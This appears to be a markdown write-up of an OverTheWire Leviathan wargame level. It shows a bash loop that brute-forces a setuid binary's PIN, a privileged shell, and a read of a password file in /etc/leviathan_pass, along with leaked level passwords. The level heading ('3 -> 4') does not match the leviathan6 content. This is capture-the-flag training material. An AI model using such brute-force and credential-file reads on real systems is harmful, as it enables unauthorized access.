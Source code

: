 # OverTheWire Project

### [Project Leviathan:](http://overthewire.org/wargames/leviathan/)

#### Leviathan Level 3 -> 4
> There is no information for this level, intentionally.

This the second to last level for Project Leviathan
The password for the previous level was `UgaoFee4li`

This level takes some creativity.
The directory has only one executable `leviathan6`

```bash
leviathan6@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan7 leviathan6 7452 Oct 29 21:17 leviathan6
leviathan6@leviathan:~$ ./leviathan6
usage: ./leviathan6 <4 digit code>
```
The file is an executable which requires a 4-digit pin which we do not know.
If you enter the wrong pin, the program returns `Wrong`
The simplest idea would be to run a shell script to brute-force this executable by entering every combination from 0000 to 9999

```bash
leviathan6@leviathan:~$ for i in {0000..9999}; do echo $i; res=`./leviathan6 $i`; echo $res; [ $res != "Wrong" ] && break; done
```

This line of code uses a for-loop to enter every number from 0000 till 9999 to find the password for the executable.

`[ $res != "Wrong" ] && break;` checks if the executable *does not* return `Wrong` and stops the loop.

After a minute or two, the loop stops at the number `7123`.

```bash
leviathan6@leviathan:~$ ./leviathan6 7123
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```

Running `./leviathan6` with the correct pin gives you a shell with leviathan7 permissions.
Using `cat /etc/leviathan_pass/leviathan7` returns `ahy7MaeBo9`

The password found for the last level is `ahy7MaeBo9`. 
